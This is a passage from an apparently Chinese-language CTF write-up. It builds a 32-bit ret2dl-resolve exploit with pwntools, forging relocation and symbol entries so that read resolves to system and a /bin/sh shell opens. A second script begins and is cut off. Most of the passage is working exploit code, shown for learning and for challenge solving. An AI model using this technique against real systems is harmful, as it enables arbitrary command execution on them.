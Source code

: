 ```
#payload+=p32(0)+p32(base_stage)+p32(100)
payload+=p32(gadget1)
payload+=p32(base_stage)
payload+=p32(gadget3)
payload+=p32(base_stage+stack_size)
#p.sendline(payload)

#struct
dynsym=0x080481cc
dynstr=0x0804822c
plt0=0x80482f0
rel_plt=0x080482b4

reloc_arg=0x804a862-rel_plt #fang hou mian yidian ,hui bei fugai
r_offset=0x0804a00c #read_got

fake_sym_addr=0x804a86a
align=0x10-((fake_sym_addr-dynsym)&amp;0xf) #align=8#栈对齐
fake_sym_addr=fake_sym_addr+align
r_info=((fake_sym_addr-dynsym)/0x10)&lt;&lt;8|0x7
#r_info=0x107

fake_rel=p32(r_offset)+p32(r_info)

payload+="A"*(0x804a85a-buf-len(payload))
payload+=p32(plt0)
payload+=p32(reloc_arg)
payload+=fake_rel

st_name=0x804a87c-dynstr
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

payload+="B"*align
payload+=fake_sym
payload+="systemx00"


p.sendline(payload)
p.interactive()
```

成功重定位read为system函数

但是参数布置依旧很麻烦

解决方案就是在payload+=p32(reloc_arg)后面添加4个字节任意数和/bin/sh的地址。

这样弹出shell之后，程序的参数正好指向/bin/sh

[![](https://s2.ax1x.com/2019/09/30/uYX5xs.png)](https://s2.ax1x.com/2019/09/30/uYX5xs.png)

代码如下：

```
# -*- coding: utf-8 -*-
from pwn import *

p=process('./pwn01')
#p=remote('39.100.87.24',8101)
gdb.attach(p,'b *0x80484b1')

Address=0x12345678
fake_ecx=0x804a05a

buf=0x804a040
fake_esp=fake_ecx-0x4
```